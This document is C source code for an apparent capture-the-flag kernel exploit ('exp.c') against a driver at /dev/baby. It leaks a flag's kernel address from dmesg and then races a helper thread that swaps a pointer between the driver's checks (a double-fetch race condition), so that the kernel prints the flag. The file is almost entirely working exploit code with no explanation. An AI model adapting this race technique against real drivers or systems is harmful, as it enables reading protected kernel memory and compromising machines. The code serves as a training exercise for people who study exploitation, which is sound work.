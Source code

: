 #### exp.c

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>

#define LEN 0x1000

struct attr{
    char* flag;
    size_t len;
};

int is_finished = 0;
char buf[LEN+1] = {0};
unsigned long long flag_addr;

void change_attr(void* s){
    struct attr* s1 = s;
    while(!is_finished)
        s1->flag = flag_addr;
}

int main()
{
    //leak flag address from dmesg
    int fd = open("/dev/baby",0);
    ioctl(fd,0x6666);
    //
    system("dmesg > /tmp/record.txt");
    int dmesg_fd = open("/tmp/record.txt",O_RDONLY);
    lseek(dmesg_fd,-0x1000,SEEK_END);
    read(dmesg_fd,buf,LEN);
    close(dmesg_fd);
    char* pos = strstr(buf,"Your flag is at ");
    if(pos == NULL)
        printf("Not found\n");
    else
        pos += 0x10;
    flag_addr = strtoull(pos,pos+0x10,0x10);
    printf("[*]flag addr:%p",flag_addr);
    //create threads
    struct attr t;
    t.flag = buf;
    t.len = 33;
    pthread_t t1;
    pthread_create(&t1,NULL,change_attr,&t);
    for(int i = 0;i < 0x1000;i++){
        ioctl(fd,0x1337,&t);
        t.flag = buf;
    }
    is_finished = 1;
    pthread_join(t1,NULL);
    close(fd);
    puts("[*]result:\n");
    system("dmesg | grep flag");
    return 0;
}
```